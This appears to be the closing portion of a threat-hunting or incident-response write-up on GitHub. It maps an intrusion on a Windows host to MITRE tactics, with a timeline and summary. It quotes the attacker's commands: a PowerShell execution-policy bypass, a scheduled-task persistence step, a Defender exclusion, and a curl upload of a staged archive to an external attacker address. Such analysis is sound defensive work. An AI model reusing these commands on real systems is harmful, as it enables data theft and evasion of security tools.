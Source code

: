 **Commentary:**
logs show an outbound POST to that host immediately after the archive was created — the attacker used curl to upload C:\Users\SLFlare\AppData\Local\Temp\backup_sync.zip to http://185.92.220.87:8081/upload.

*<img width="2467" height="148" alt="image" src="https://github.com/user-attachments/assets/d314414f-fd6f-466c-b4b9-ac7588d19f51" />
**

---

## 🧾 Summary Table

| Stage               | Indicator / Evidence                 | Tactic (MITRE)                        |
| ------------------- | ------------------------------------ | ------------------------------------- |
| **Initial Access**  | RDP success from `159.26.106.84`     | T1110 – Brute Force                   |
| **Execution**       | `msupdate.exe` PowerShell script     | T1059 – Command Interpreter           |
| **Persistence**     | Scheduled Task `MicrosoftUpdateSync` | T1053 – Scheduled Task                |
| **Defense Evasion** | Defender exclusion `C:\Windows\Temp` | T1562.001 – Disable Security Tools    |
| **Discovery**       | `systeminfo`, `whoami`, `wmic`       | T1082, T1016                          |
| **Collection**      | Archive `backup_sync.zip`            | T1074 – Data Staging                  |
| **Exfiltration**    | `curl` → `185.92.220.87:8081`        | T1041 – Exfiltration Over Web Service |

## 🕒 Attack Timeline — `slflarewinsysmo`

| **Timestamp (UTC)** | **Phase** | **Activity** | **Details / Indicators** |
|----------------------|------------|---------------|---------------------------|
| **2025-09-16 14:43:46** | Initial Access | ✅ Successful RDP login after multiple failures | User **`slflare`** authenticated from external IP **`159.26.106.84`** |
| **2025-09-16 19:38:40** | Execution | ⚙️ Malicious binary launched | Executed `"msupdate.exe" -ExecutionPolicy Bypass -File C:\Users\Public\update_check.ps1"` |
| **~19:45 UTC** | Persistence | 🗓 Scheduled task created | Task **`MicrosoftUpdateSync`** registered to relaunch `msupdate.exe` |
| **~19:50 UTC** | Defense Evasion | 🧱 Defender exclusion added | Excluded folder **`C:\Windows\Temp`** from antivirus scanning |
| **~19:55–20:00 UTC** | Discovery | 🔍 System reconnaissance | Commands executed: `systeminfo`, `whoami`, `wmic computersystem get domain`, `quser` |
| **~20:05 UTC** | Collection | 📦 Archive created | File **`C:\Users\SLFlare\AppData\Local\Temp\backup_sync.zip`** generated for data staging |
| **~20:13 UTC** | Exfiltration | 🌐 Outbound data upload | `curl -X POST -F "file=@...backup_sync.zip" http://185.92.220.87:8081/upload` |
| **Post-Exfil** | C2 / Command & Control | 🔗 External communication | Persistent outbound traffic to **`185.92.220.87:8081`** (attacker C2) |

---

🧠 **Summary:**  
The attacker gained RDP access, executed a PowerShell payload (`msupdate.exe`), established persistence, evaded AV scanning, performed host enumeration, archived local data, and exfiltrated it via HTTP POST to their external C2.

---
